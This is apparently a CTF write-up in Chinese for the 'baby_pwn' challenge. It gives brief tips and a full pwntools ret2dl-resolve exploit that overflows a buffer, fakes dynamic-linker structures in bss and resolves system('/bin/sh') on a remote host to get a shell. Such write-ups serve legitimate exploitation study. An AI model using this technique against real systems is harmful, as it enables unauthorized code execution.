# baby_pwn
...这题就不敢恭维了..
这题我在前几天的[博客里][1]刚总结过...差不多的..这里不多说
结果本菜鸡 bss设置错误导致我弄了1小时45分才做出来...
## 经验
* dl的题目变化不大 特点是没有leak 有溢出
* 照着上次总结的模板改就可以
* 如果调试有问题先换换bss看看能不能运行过前面一些基本地址获取
* 注意是否可以获得符号`<_dl_fixup+166>    add    eax, dword ptr [ebx]`此条过后eax应该指向`fake_strtab`的`system`


```python
from pwn import *
context.log_level='debug'
context.arch='i386'
#p=process('./pwn')
p=remote("39.97.227.64",56833)
got=0x804a00c
read=0x8048390
rbp=0x080485db
ppp=0x080485d9
ret=0x080481ab
bss=0x0804a810
plt0=0x8048380
strtab=0x804827c
dynsym=0x80481dc
dynrel=0x804833c#plt
p2=flat(
[got,0x07+(((bss+0x10-dynsym)/0x10)<<8)],bss+0x28-0x804827c,bss+0x28-0x804827c,# DYN_REL & ALAIGN
[bss+0x28-strtab,0x12,0,0,0,0],#DYNSYM
)+"system\x00\x00"+"/bin/sh\x00"#DYNSTR

payload="\00"*0x28+p32(0)+p32(read)+p32(ppp)+p32(0)+p32(bss)+p32(0x597)+p32(plt0)+p32(bss-dynrel)+p32(bss+0x30)*2
p.send(payload)
#gdb.attach(p,'')
sleep(1)
p.send(p2)

p.interactive()
```